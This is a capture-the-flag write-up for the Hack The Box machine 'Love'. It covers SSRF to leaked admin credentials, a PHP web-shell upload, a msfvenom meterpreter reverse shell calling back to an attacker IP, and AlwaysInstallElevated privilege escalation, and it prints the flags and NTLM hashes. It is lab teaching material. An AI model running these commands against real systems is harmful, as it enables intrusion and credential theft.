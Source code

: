 # LOVE.htb
<br>
IP: 10.10.10.239 <br>   Difficulty: Easy-Medium <br>

Added IP to hosts file and started rustscan.
Found many open ports, smb was on, many http servers were running.
Also in 5000 port output, I saw a subdomain named: staging.love.htb. So I added this subdomain into the hosts file.
I opened this new sub-domain and saw a file scanner.
It was accepting a URL input and it was scanning it.
I found out that we can scan any URL with it.

Since 5000 port was forbidden to us, so I thought if I can view the webpage at this port.
I entered:

```
http://localhost:5000
```
And I got valid admin credentials for the main webste.

```
admin: @LoveIsInTheAir!!!! 
```
## Command Execution

Logged into the web page as admin.
In the top right corner, I clicked on update profile and I can upload an image. I remembered the result of gobuster also had image directory.
If I could upload a php file or any other executable file, I can gain RCE.
I tried to upload a simple cmd.php.

```
cp /usr/share/webshells/php/simple-backdoor.php cmd.php
```

The file was uploaded and was visible in /images directory.
All I had to do to run command was:

```
http://love.htb/images/cmd.php?cmd=<command>
```

## Reverse shell and User.txt

Since I can run my commands, I had to generate a reverse shell in exe format. I used msfvenom for this.

```
msfvenom -p windows/meterpreter/reverse_tcp lport=4444 lhost=10.10.14.174 -f exe -o shell.exe
```

Now, I had reverse shell.exe and a command execution.
So I uploaded this shell.exe as image in update profile. I got uploaded succesfully.
Now all I had to do for a reverse shell was to start a metasploit listener and execute the shell.exe using RCE.

```
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

Set options

http://love.htb/images/cmd.php?cmd=shell.exe
```

Got a reverse shell as Pheobe.
User.txt was in C:\Users\Phoebe\Desktop\User.txt

```
65d36c72a480d076e96f5df7cc99b8d6
```

## Root.txt

I used exploit/windows/local/always_install_elevated to escalate privilege to root.

Background the current session using Ctrl+Z and set exploit to exploit/windows/local/always_install_elevated.
Set options and run.

I got shell as AuthoritySystem.
Got root.txt in C:\Users\Administrator\Desktop\root.txt

```
a2c43e546e51e9c7ab1935cfed2ccd83
```
HashDump

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aab42ca009fed69fa5ee57c52cf5bcf1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a76ad78f85923b7b58e79c8b818efa32:::
Phoebe:1002:aad3b435b51404eeaad3b435b51404ee:a9ccd3a011ceb45b44ce6f6b40122268:::
```
